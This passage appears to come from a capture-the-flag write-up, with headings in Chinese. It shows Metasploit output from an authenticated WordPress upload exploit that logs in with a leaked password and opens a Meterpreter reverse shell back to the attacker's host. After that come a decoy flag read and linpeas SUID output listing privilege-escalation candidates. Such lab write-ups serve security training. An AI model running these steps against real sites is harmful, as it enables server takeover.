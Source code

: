 [*] Started reverse TCP handler on 10.13.21.169:4444 
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39282 bytes) to 10.10.122.108
[*] Meterpreter session 2 opened (10.13.21.169:4444 -> 10.10.122.108:53154) at 2021-09-18 04:41:28 -0400

```

# user flag不在home目录
```
$ cat /home/bjoel/user.txt
cat /home/bjoel/user.txt
You won't find what you're looking for here.

TRY HARDER
```

# 传linpeas枚举漏洞，查看可利用的SUID
```
══════════╣ SUID - Check easy privesc, exploits and write perms                                                                                                                                                                            
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation# sudo-and-suid                                                                                                                                                                 
-rwsr-xr-x 1 root root 59K Mar 22  2019 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)                                                                                      
-rwsr-xr-x 1 root root 40K Mar 22  2019 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 75K Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 44K Mar 22  2019 /usr/bin/chsh (Unknown SUID binary)
-rwsr-xr-x 1 root root 37K Mar 22  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 22K Mar 27  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-xr-x 1 root root 75K Mar 22  2019 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 146K Jan 31  2020 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-sr-x 1 daemon daemon 51K Feb 20  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 37K Mar 22  2019 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 19K Jun 28  2019 /usr/bin/traceroute6.iputils
-rwsr-sr-x 1 root root 8.3K May 26  2020 /usr/sbin/checker (Unknown SUID binary)
-rwsr-xr-x 1 root root 99K Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-- 1 root messagebus 42K Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper (Unknown SUID binary)
-rwsr-sr-x 1 root root 107K Oct 30  2019 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
-rwsr-xr-x 1 root root 14K Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 427K Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device (Unknown SUID binary)
-rwsr-xr-x 1 root root 43K Mar  5  2020 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 31K Aug 11  2016 /bin/fusermount (Unknown SUID binary)
-rwsr-xr-x 1 root root 27K Mar  5  2020 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 63K Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 44K Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 40K Oct 10  2019 /snap/core/8268/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 44K May  7  2014 /snap/core/8268/bin/ping
-rwsr-xr-x 1 root root 44K May  7  2014 /snap/core/8268/bin/ping6
-rwsr-xr-x 1 root root 40K Mar 25  2019 /snap/core/8268/bin/su
-rwsr-xr-x 1 root root 27K Oct 10  2019 /snap/core/8268/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 71K Mar 25  2019 /snap/core/8268/usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 40K Mar 25  2019 /snap/core/8268/usr/bin/chsh (Unknown SUID binary)
-rwsr-xr-x 1 root root 74K Mar 25  2019 /snap/core/8268/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39K Mar 25  2019 /snap/core/8268/usr/bin/newgrp  --->  HP-UX_10.20